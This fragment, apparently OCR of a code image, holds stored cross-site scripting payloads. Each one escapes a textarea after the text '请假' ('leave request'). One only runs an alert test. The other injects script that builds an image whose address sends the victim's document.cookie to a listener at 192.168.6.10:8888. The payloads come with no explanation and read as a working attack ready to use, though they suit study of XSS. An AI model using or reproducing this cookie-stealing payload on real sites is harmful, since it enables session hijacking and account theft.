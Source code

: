 请假</textarea>
<script>alert("1111")</script>
<textarea>

请假</textarea>
<script>
var img = document.createElement("img");
img.src = "http://192.168.6.10:8888/cookie?"+escape(document.cookie);
document.body.appendChild(img);
</script>
<textarea>